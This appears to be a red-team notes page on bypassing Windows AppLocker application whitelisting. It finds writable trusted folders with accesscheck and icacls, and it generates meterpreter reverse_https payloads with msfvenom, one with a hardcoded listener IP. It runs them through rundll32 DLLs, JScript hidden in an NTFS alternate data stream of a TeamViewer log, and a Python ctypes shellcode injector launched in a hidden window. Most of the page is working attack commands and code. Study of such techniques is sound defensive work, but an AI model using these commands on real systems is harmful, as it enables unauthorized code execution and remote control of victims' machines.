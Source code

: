 ```yaml
---
title: Bypassing application whitelisting
tags:
  - breach
  - operations
  - bypass
  - application
  - whitelist
  - allowlist
  - applocker
  - python
  - jscript
  - ctypes
  - sysinternals
  - icacls
  - accesscheck
  - rundll32
---
```


## AppLocker

TODO

## Finding trusted folders

TODO SysInternals TODO arguments

- `-w` to locate writeable directores
- `-u` to suppress any errors
- `-s` to recursively search through all subdirectories

```powershell
accesscheck.exe "${USERNAME}" "${DIRECTORY}" -wus
```

TODO using `icacls.exe`

```powershell
icacls.exe "${DIRECTORY}"
```

Example execution

```powershell
PS> icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
                 BUILTIN\Administrators:(F)
                 BUILTIN\Administrators:(OI)(CI)(IO)(F)
                 NT AUTHORITY\SYSTEM:(F)
                 NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
                 CREATOR OWNER:(OI)(CI)(IO)(F)
```

Above shows that `NT AUTHORITY\Authenticated Users` has `ReadExecute` and
`WriteDirectory` permissions. If AppLocker allows code execution from the
`C:\Windows` directory, an unprivileged, authenticated user would be able to
gain code execution.

## Bypass with rundll32

Unmanaged code within DLLs can be used to bypass default AppLocker rules, as
code execution is restricted to executables, not DLLs. With this, we can invoke
the following command to execute DLLs and bypass AppLocker restrictions:

```powershell
rundll32 "${DLL_PATH}","${EXPORTED_METHOD}"
```

The above example invocation will load and execute the provided DLL, invoking
the specified exported method.

AppLocker can also publish rules to restrict DLL execution to particular
directories, however, we can also use the directory-based bypass discussed in
the previous section,
[[bypassing-application-whitelisting#Finding trusted folders|Finding trusted folders]],
to execute DLLs.

### Executing an msfvenom DLL payload

The following invocation will generate a **meterpreter** DLL payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f dll -o payload.dll
```

We can execute the payload on a Windows host to obtain a reverse shell by
invoking the following:

```powershell
rundll32 .\payload.dll,entrypoint
```

## Bypass with alternate data streams

The Windows NTFS filesystem has a feature that allows data to be stored in
**Alternate Data Streams (ADS)**. If we're able to write our text-based
payloads, for example Jscript, to an file's ADS contained with a trusted
directory, we can bypass directory-based restrictions.

The following invocation will generate a raw **meterpreter** shellcode payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.190 LPORT=8443 -f raw -o shell.txt
```

We use the [SharpShooter](https://github.com/X0RW3LL/SharpShooter/tree/master)
utility to wrap our **meterpreter** shellcode payload in a **Jscript** runner
for .NET Framework version 4:

```bash
python ~/opt/SharpShooter/SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output shell
```

We use techniques described in our previous section,
[[bypassing-application-whitelisting#Finding trusted folders|Finding trusted folders]],
to find a candidate text file that we can write an **ADS** to. Here's an example
invocation of writing our `shell.js` payload to an **ADS**:

```cmd
type shell.js > "${FILE_PATH}:shell.js"
```

In our example, we'll use this **TeamViewer** log file:

```cmd
type shell.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:shell.js"
```

To execute the payload, we'll use `wscript` to execute the contents of the
**Jscript** payload in the file's **ADS**:

```cmd
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:shell.js"
```

## Other bypass methods

AppLocker only enforces rules against native file types. Code execution with
third-party scripting engines like Python or Perl are not restricted. Similarly,
we could also gain code execution with Java. There is also a lack of enforcement
against VBA code inside Microsoft Office documents, highlighting the usefulness
of Office documents in client-side attacks.

Here's an example invocation of `msfvenom` to create a Python **meterpreter**
reverse shell payload:

```bash
sfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f python -o payload.py
```

The following Python script uses `ctypes` to inject our shellcode into the
current Python process and executes it:

```python
import ctypes
from sys import exit


class Constants:
    PAGE_EXECUTE_READWRITE = 0x40
    PAGE_SIZE = 0x3000


def main() -> int:
    buf = b""
    buf += b"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51"
    # ...
    buf += b"\xff\xd5"

    kernel32 = ctypes.windll.kernel32
    kernel32.VirtualAlloc.restype = ctypes.c_void_p

    segment = kernel32.VirtualAlloc(
        None,
        len(buf),
        Constants.PAGE_SIZE,
        Constants.PAGE_EXECUTE_READWRITE,
    )

    kernel32.RtlMoveMemory.argtypes = (
        ctypes.c_void_p,
        ctypes.c_void_p,
        ctypes.c_size_t,
    )

    kernel32.RtlMoveMemory(segment, ctypes.create_string_buffer(buf), len(buf))
    ctypes.cast(segment, ctypes.CFUNCTYPE(None))()

    return 0


if __name__ == "__main__":
    exit(main())
```

Invoke the Python **meterpreter** reverse shell payload on a Windows host with
the following:

```powershell
Start-Process `
    -FilePath (Get-Command python).Source `
    -ArgumentList @((Resolve-Path -Path ".\ReverseShell.py").Path) `
    -WindowStyle Hidden
```
